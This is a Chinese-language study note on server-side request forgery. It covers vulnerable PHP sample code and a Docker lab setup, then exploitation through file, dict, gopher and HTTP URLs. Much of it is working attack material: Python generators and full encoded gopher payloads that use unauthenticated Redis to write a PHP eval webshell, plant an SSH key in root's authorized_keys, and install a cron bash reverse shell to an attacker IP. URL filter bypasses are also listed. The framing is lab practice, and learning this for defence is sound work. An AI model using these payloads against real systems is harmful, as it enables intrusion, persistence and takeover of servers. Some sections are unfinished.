









# SSRF 漏洞总结


## 一. SSRF 是什么？

**SSRF** (Server-Side Request Forgery)，即服务（器）端请求伪造，利用漏洞伪造服务器端发起请求，从而突破客户端获取不到数据的限制，本质上是属于信息泄露漏洞。

### 1.1 SSRF 漏洞成因与原理

SSRF 形成的原因大都是由于服务器端提供了从其他服务器应用获取数据的功能，但是却没有对目的地址做过滤与限制。比如从指定 URL 地址获取网页的文本内容，加载指定地址的图片、下载等等。

而且在大部分的 web 服务器架构中，web 服务器自身是可以访问互联网和服务器所在的内网的，所以攻击者可以传入任意的地址来让服务器对后端内网发起请求，并返回对该目标地址请求的数据。

一般情况下，SSRF 攻击的目标是外网无法访问的内部系统（即内网），所以 SSRF 漏洞也可以用一句话来进行总结：将一个可以发起网络请求的服务器当作跳板来攻击服务器内部网络其他服务。

### 1.2 容易出现 SSRF 漏洞的地方

1. 转码服务
2. 在线翻译
3. 通过URL地址加/下载图片
4. 图片、文章收藏功能
5. 网站采集、网页抓取的地方
6. 远程加载头像
7. 一切要你输入网址或 ip 的地方

### 1.3 利用 SSRF 可以实现的攻击

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息。
3. 可对内网 WEB 应用进行指纹识别，通过访问默认文件实现（如：readme 文件）
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（如：Struts2，sqli）
5. 下载内网资源（如：利用 file 协议读取本地文件等）
6. 进行跳板攻击
7. 无视 cdn
8. 利用 Redis 未授权访问，HTTP CRLF 注入实现 getshell


## 二. SSRF 漏洞示例代码

- 以各种常见的编程语言为例，给出一些存在 SSRF 漏洞的[示例代码](https://security.tencent.com/index.php/blog/msg/179)。

### 2.1 PHP

#### 2.1.1 file_get_contents()

> 该函数将整个文件或一个 url 所指向的文件读入一个字符串中。

示例代码：

```php
<?php
$url = $_GET['url'];;
echo file_get_contents($url);
?>
```

#### 2.1.2 fsockopen()

fsockopen 用于打开一个网络连接或者一个 Unix 套接字连接，初始化一个套接字连接到指定主机（hostname），实现对用户指定 url 数据的获取。

该函数会使用socket跟服务器建立tcp连接，进行传输原始数据。 fsockopen()将返回一个文件句柄，之后可以被其他文件类函数调用（例如：fgets()，fgetss()，fwrite()，fclose()还有feof()）。如果调用失败，将返回false。变量host为主机名，port为端口，errstr表示错误信息将以字符串的信息返回，30为时限。
测试代码：

```php
// ssrf.php
<?php
$host=$_GET['url'];
$fp = fsockopen($host, 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?>
```

#### 2.1.3 curl_exec()

curl_init() 函数初始化一个新的会话，返回一个 cURL 句柄，供 curl_setopt()，curl_exec() 和 curl_close() 函数使用。

测试代码：

```php
// ssrf.php
<?php 
if (isset($_GET['url'])){
	$link = $_GET['url'];
	$curlobj = curl_init(); // 创建新的 cURL 资源
	curl_setopt($curlobj, CURLOPT_POST, 0);
	curl_setopt($curlobj,CURLOPT_URL,$link);
	curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1); // 设置 URL 和相应的选项
	$result=curl_exec($curlobj); // 抓取 URL 并把它传递给浏览器
	curl_close($curlobj); // 关闭 cURL 资源，并且释放系统资源
 
	// $filename = './curled/'.rand().'.txt';
	// file_put_contents($filename, $result); 
	echo $result;
}
?>
```

## SSRF 常见绕过

## 二. SSRF 漏洞利用

下面我们详细说说如何利用各种协议对 SSRF 漏洞进行利用。不过在那之前我们需要先搭建好一个测试环境。

### 2.1 搭建 SSRF 漏洞环境

为了更好地理解 SSRF，在本地搭建相应漏洞环境进行实操学习是很有必要的，以下以 PHP 为例子，搭建了一个存在 SSRF 漏洞的服务器。


首先是利用 Docker 搭建一个 php 服务器，镜像的话从官方库拉取一个即可，我选的是 7.4.18。




之后启动容器，把容器的 80 端口映射到虚拟机的 12345 端口：





现在进入容器内编写存在漏洞的代码块：



新建 index.php 文件

```php
<?php 
if (isset($_GET['url'])){
	$link = $_GET['url'];
	$curlobj = curl_init(); // 创建新的 cURL 资源
	curl_setopt($curlobj, CURLOPT_POST, 0);
	curl_setopt($curlobj,CURLOPT_URL,$link);
	curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1); // 设置 URL 和相应的选项
	$result=curl_exec($curlobj); // 抓取 URL 并把它传递给浏览器
	curl_close($curlobj); // 关闭 cURL 资源，并且释放系统资源
 
	// $filename = './curled/'.rand().'.txt';
	// file_put_contents($filename, $result); 
	echo $result;
}
?>
```

> 你也可以使用 echo 命令结合重定向符往 index.php 写入内容。



现在回到浏览器直接访问本机 12345 端口即可。

其次创建一个准备读取的文件，稍微我们要通过 SSRF 读取该文件。



复制到 docker 容器内：




### 2.1 SSRF 漏洞利用之 File 协议

> >  File 协议也叫本地文件传输协议 ，主要用于访问本地计算机中的文件。
>
> file 协议的基本用法如下：
>
> `file://文件路径`

在 SSRF 漏洞利用当中，**我们通常使用 File 协议来读取文件等**。

输入

```http
?url=file:///var/www/html/flag.txt
```

读取 flag.txt：



还可以读取网站源码：




### 2.2 SSRF 漏洞利用之 Dict 协议

> Dict 协议是一个字典服务器协议---- A Dictionary Server Protocol ，允许客户端在使用过程中访问更多字典，并且该协议约定服务器端侦听的端口号为 2628。 
>
> 协议详解：https://www.cnblogs.com/kkun/archive/2009/03/28/1424052.html

#### 2.2.1 利用dict 协议进行端口探测
```http
?url=dict://192.168.52.131:6379   // redis
?url=dict://192.168.52.131:80     // http
?url=dict://192.168.52.130:22   // ssh

```
可以利用 burp suite 直接爆破端口，根据回显长度的不同判断端口是否开放


路径后面补上 `/info` 查看端口上运行服务的版本信息

```
url=dict://127.0.0.1:80/info
```


虽然报错了，但是我们能够得到 Web 服务器的版本信息，以及最下方的该 Web 服务器的 ip 地址。

#### 2.2.2 dict 协议结合 redis 未授权访问写入 shell

我们先给之前的那个 php 容器安装上 redis 服务，并尝试利用 dict 协议进行 SSRF 漏洞利用，注意不要忘记编辑 index.php 文件到容器当中去。
```bash
$ docker run -itd -p  800:80 6379:6379 --name test c693
#9262bb213eb013c8fa1972a44074bcd3ce6e29530d0496b2712fde2ed4e96702
$ docker cp index.php 9262:/var/www/html/index.php 
$ docker ps #查看容器编号
$ docker exec -it 容器编号 /bin/bash #进入容器
$ apt update #更新一下apt
$ apt-get install redis-server # 安装redis服务
$ redis-server #开启redis服务
```


注意到安装完毕之后可能会提示 redis 处于保护模式，我们在容器内部开启 redis 服务之后，进入容器终端内并输入
```bash
$ redis-cli -h 127.0.0.1
$ CONFIG SET protected-mode no
```

这样就可以关闭保护模式了，但是这也无关紧要，毕竟我们是要通过该容器的 ssrf 漏洞访问到它的 6379 端口的 redis 服务。
现在我们可以打开浏览器测试一下了，在 url 中输入

```http
?url=dict://127.0.0.1:6379/flushall
```


如果看到 ok 字样则说明可以成功执行命令（为什么？）。继续输入

```http
?url=dict://127.0.0.1:6379/info
```


成功获取到 redis 服务相关信息。接下来尝试利用 dict 协议攻击 redis 服务写入 webshell 。

1. 首先更改 rdb 文件目录至网站 web 目录下。

```http
config:set:dir/var/www/html
```

> 关于 redis 本身的知识点请参看[菜鸟教程](https://www.runoob.com/redis/redis-conf.html)
>
> config set dir 路径 用于指定本地数据库存放目录


可以在本地输入 `get` 命令检查一下是否修改成功：


将 rdb 文件名 dbfilename 改为 webshell 的名字

```http
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

// config set dbfilename dump.rdb 指定本地数据库文件名，默认值为 dump.rdb
```


十六进制编码写入 phpinfo。

```http
dict://127.0.0.1:6379/set:webshell:"x3cx3fx70x68x70x20x70x68x70x69x6ex66x6fx28x29x3bx20x3fx3e"
```


### 2.3 Gopher 协议
gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。

利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。接下来我们利用 gopher 协议结合 redis 服务进行相关攻击。

#### 2.3.1 结合 redis 未授权访问写入 WebShell
要写入的命令是如下的样子


我们写一个脚本，将其转化为 Gopher 协议的格式

```python
import urllib
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_POST[\"whoami\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(shell.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_" # 协议 + ip + 端口 + 斜杠+下划线 + payload
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*" + str(len(redis_arr))
	for x in redis_arr:
		cmd += CRLF + "$"+str(len((x.replace("${IFS}"," ")))) + CRLF + x.replace("${IFS}"," ")
	cmd += CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```
这里要将**生成的 payload 要进行 url 二次编码**（因为我们发送 payload 用的是 GET 方法），然后利用 Ubuntu 服务器上的SSRF 漏洞，将二次编码后的 payload 打过去就行了：
接着浏览器访问：?

```http
url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252435%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B%2522whoami%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

成功写入!


#### 2.3.2 结合 redis 未授权访问写入 SSH 公钥
同样，我们也可以直接这个存在Redis未授权的主机的/.ssh目录下写入SSH公钥，直接实现免密登录，但前提是~/.ssh目录存在，如果不存在我们可以写入计划任务来创建该目录。为了实验方便，笔者给容器安装了ssh服务并在根目录下创建了.ssh目录。
首先在自己的本地生成公、私钥
`ssh-keygen -m PEM -t rsa -b 4096`
用生成的公钥构造redis命令，这个公钥会写入到目标主机上。当我们远程登录时，进行一个公私钥的配对，如果你的私钥不配对那么就无法完成登录。所以一定要在自己本地生成好对应的公私钥，总之是要跟目标主机上的公钥匹配。

```python
flushall
set 1 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDcGm8oidc0E30EBKAueY5GgmAqEGwiBs9xp+J4RonhtqMUrh+DEuiq9UtT2YOMoaIdjslqbqWtj3uZjlgJeVeWHXD31fakvVu2tgwXJicE240jK8slrBGa0JTr6ACpamDoTycgJ2OF4Ve2lZLxzHHiDr7+tD/9ucC7FSMmB+K1t686Tvb+U0X/FQkuxaJHyCJiSSOS7MxQ8kXPK5+dXV4rfHBpGwfkbLkSvoOhxttAsXtHNUe24gaKh5pjSrcyda1yQ2yv3nSClzbx/sDMTxWc9KpABHWcaxQ8nafFqo4qtjIowyvSMNqxC7BTXEF58khm1OtacZ+9TfcECr0Lw/ySpQWyS4Kd9qlBeHz6KyHAaw3R9A1nDymUDksw4QG5EZuXkY5wfC1RIkkRmM9x01YppDZ/HfrhJpRYhpJ6LZZuSawX0nAziU5AHZ9IBcCaeVXdrW7+wVg24puTzuE7GG0K2peqOb0ILXyxWqb5VGrQxq4Jk0/W1IGUy5GkxejobRVLNLc6Ft5qlW1wk8Iry5MVLwO9ARrRLD3GC44O/rYv0Mi5HULeO17Abh5Iasg8769njqYcFGI+80+gFNr+9Y1OJdGelQGLPOWyY/cu98esmYe9FYUQSp6vPpFZZGttBD4SAqd2TAzgZTBg+QEbW4r410wmXnFRYRyfRUZKz8tVHQ== kali@kali

'
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```
然后将这个命令转为Gopher协议的格式
```python
import urllib
protocol="gopher://"
ip="127.0.0.1"
port="6379"
ssh_pub="\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDcGm8oidc0E30EBKAueY5GgmAqEGwiBs9xp+J4RonhtqMUrh+DEuiq9UtT2YOMoaIdjslqbqWtj3uZjlgJeVeWHXD31fakvVu2tgwXJicE240jK8slrBGa0JTr6ACpamDoTycgJ2OF4Ve2lZLxzHHiDr7+tD/9ucC7FSMmB+K1t686Tvb+U0X/FQkuxaJHyCJiSSOS7MxQ8kXPK5+dXV4rfHBpGwfkbLkSvoOhxttAsXtHNUe24gaKh5pjSrcyda1yQ2yv3nSClzbx/sDMTxWc9KpABHWcaxQ8nafFqo4qtjIowyvSMNqxC7BTXEF58khm1OtacZ+9TfcECr0Lw/ySpQWyS4Kd9qlBeHz6KyHAaw3R9A1nDymUDksw4QG5EZuXkY5wfC1RIkkRmM9x01YppDZ/HfrhJpRYhpJ6LZZuSawX0nAziU5AHZ9IBcCaeVXdrW7+wVg24puTzuE7GG0K2peqOb0ILXyxWqb5VGrQxq4Jk0/W1IGUy5GkxejobRVLNLc6Ft5qlW1wk8Iry5MVLwO9ARrRLD3GC44O/rYv0Mi5HULeO17Abh5Iasg8769njqYcFGI+80+gFNr+9Y1OJdGelQGLPOWyY/cu98esmYe9FYUQSp6vPpFZZGttBD4SAqd2TAzgZTBg+QEbW4r410wmXnFRYRyfRUZKz8tVHQ== kali@kali\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(ssh_pub.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
    
    print urllib.quote(payload)#二次url编码
```
生成的payload同样要进行url编码，随后在SSRF漏洞处传入以下参数：

```
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%2524568%250D%250A%250A%250Assh-rsa%2520AAAAB3NzaC1yc2EAAAADAQABAAABgQDrCwrA1zAhmjeG6E%2F45IEs%2F9a6AWfXb6iwzo%252BD62y8MOmt%252Bsct27ZxGOcRR95FT6zrfFxqt2h56oLwml%2FTrxy5sExSQ%2FcvvLwUTWb3ntJYyh2eGkQnOf2d%252Bax2CVF8S6hn2Z0asAGnP3P4wCJlyR7BBTaka9QNH%2F4xsFDCfambjmYzbx9O2fzl8F67jsTq8BVZxy5XvSsoHdCtr7vxqFUd%2FbWcrZ5F1pEQ8tnEBYsyfMK0NuMnxBdquNVSlyQ%2FNnHKyWtI%2FOzzyfvtAGO6vf3dFSJlxwZ0aC15GOwJhjTpTMKq9jrRdGdkIrxLKe%252BXqQnjxtk4giopiFfRu8winE9scqlIA5Iu%2Fd3O454ZkYDMud7zRkSI17lP5rq3A1f5xZbTRUlxpa3Pcuolg%2FOOhoA3iKNhJ%2FJT31TU9E24dGh2Ei8K%252BPpT92dUnFDcmbEfBBQz7llHUUBxedy44Yl%252BSOsVHpNqwFcrgsq%2FWR5BGqnu54vTTdJh0pSrl%252BtniHEnWWU%253D%2520root%2540whoami%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252411%250D%250A%2Froot%2F.ssh%2F%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%252415%250D%250Aauthorized_keys%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

如下图，写入成功。


现在在本地尝试一下 ssh 远程登录


#### 2.3.3 结合 redis 未授权访问创建计划任务反弹 shell

要构造的 redis 命令如下：
```python
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.226.128/2333 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save

// 47.xxx.xxx.72为攻击者vps的IP
```
继续利用前面的脚本将其转为符合 gopher 协议的格式
```python
import urllib
protocol="gopher://"
ip="127.0.0.1"
port="6379"
reverse_ip="192.168.226.128"
reverse_port="2333"
cron="\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n"%(reverse_ip,reverse_port)
filename="root"
path="/var/spool/cron"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(cron.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print urllib.quote(payload)
```
生成的 payload 同样进行 url 二次编码，然后利用目标主机上的 SSRF 打过去，即可在目标主机 192.168.52.131 上写入计划任务，等到时间后，攻击者 vps 上就会获得目标主机的 shell 。

#### 2.3.4 攻击 FastCGI

##### FastCGI 简介

FastCGI指快速通用网关接口（Fast Common Gateway Interface／FastCGI）是一种让交互程序与Web服务器通信的协议。FastCGI是早期通用网关接口（CGI）的增强版本。FastCGI致力于减少网页服务器与CGI程序之间交互的开销，从而使服务器可以同时处理更多的网页请求。

>众所周知，在网站分类中存在一种分类就是静态网站和动态网站，两者的区别就是静态网站只需要**通过浏览器进行解析**，而动态网站需要一个**额外的编译解析**的过程。以Apache为例，当访问动态网站的主页时，根据容器的配置文件，它知道这个页面不是静态页面，Web容器就会把这个请求进行简单的处理，然后如果使用的是CGI，就会启动CGI程序（对应的就是PHP解释器）。接下来PHP解析器会解析php.ini文件，初始化执行环境，然后处理请求，再以规定CGI规定的格式返回处理后的结果，退出进程，Web server再把结果返回给浏览器。这就是一个完整的动态PHP Web访问流程。
>
>这里说的是使用CGI，而FastCGI就相当于高性能的CGI，与CGI不同的是它**像一个常驻的CGI**，在启动后会一直运行着，不需要每次处理数据时都启动一次，**所以FastCGI的主要行为是将CGI解释器进程保持在内存中**，并因此获得较高的性能 。


##### FastCGI 环境搭建

- 如何在 web 服务器上搭建 FastCGI 服务呢？暂时还没研究。


### 2.4 Http、Https 协议

通常在 SSRF 漏洞中，我们利用这两个协议来判断**内网主机的存活性**。

- 一般是先想办法得到目标主机的网络配置信息，如读取 /etc/hosts、/proc/net/arp、/proc/net/fib_trie 等文件，从而获得目标主机的内网网段，随后就可以通过 HTTP 协议来判断网段中主机的存活性。

内网 IP 地址范围分三类，以下 IP 段为内网 IP 段：

C类：192.168.0.0 - 192.168.255.255

B类：172.16.0.0 - 172.31.255.255

A类：10.0.0.0 - 10.255.255.255

假如我们的内网网段是 192.168.52.0/24 ,那么我们可以构造如下的 payload 去探测内网存活的主机。
```http
ssrf.php?url=http://192.168.52.1
ssrf.php?url=http://192.168.52.6
ssrf.php?url=http://192.168.52.25
......
```


### SSRF 常见限制

对SSRF的限制大致有如下几种：
1、限制请求的端口只能为Web端口，只允许访问HTTP和HTTPS的请求。
2、限制域名只能为`http://www.xxx.com`。
3、限制不能访问内网的IP，以防止对内网进行攻击。
4、屏蔽返回的详细信息。

### 绕过 127.0.0.1
可以使用[封闭式字母数字](https://www.mp51.vip/ZhiShi/34)替换ip中的点号和字母来绕过

### 绕过方法1-HTTP基本身份认证
如果目标代码限制访问的域名只能为`http://www.xxx.com`，那么我们可以采用HTTP基本身份认证的方式绕过。如果我们要访问的是`www.baidu.com`，那么可以输入这样的命令来绕过：`http://www.xxx.com@www.baidu.com`

扩展：如果要求以http://notfound.ctfhub开头.com 结尾的话，依旧可以使用@

### 绕过方法2-302跳转绕过内网IP
我们可以利用302跳转的方法来绕过内网IP的访问限制，有以下两种方法。
1、网络上存在一个很神奇的服务，网址为`http://xip.io`，


## 一些 SSRF 靶场练习题

### ctfshow 的 ssrf 练习

答案：

https://blog.csdn.net/qq_50589021/article/details/120183781

https://blog.csdn.net/cosmoslin/article/details/120456960

## 参考链接

- [freebuf](https://www.freebuf.com/articles/web/260806.html)，很好的一篇文章。

https://xz.aliyun.com/t/7333


https://blog.chaitin.cn/gopher-attack-surfaces/

[SSRF 之利用 dict 和 gopher 吊打 Redis ](https://www.cnbiancheng.com/?p=8158) 


[SSRF安全指北](https://security.tencent.com/index.php/blog/msg/179) 

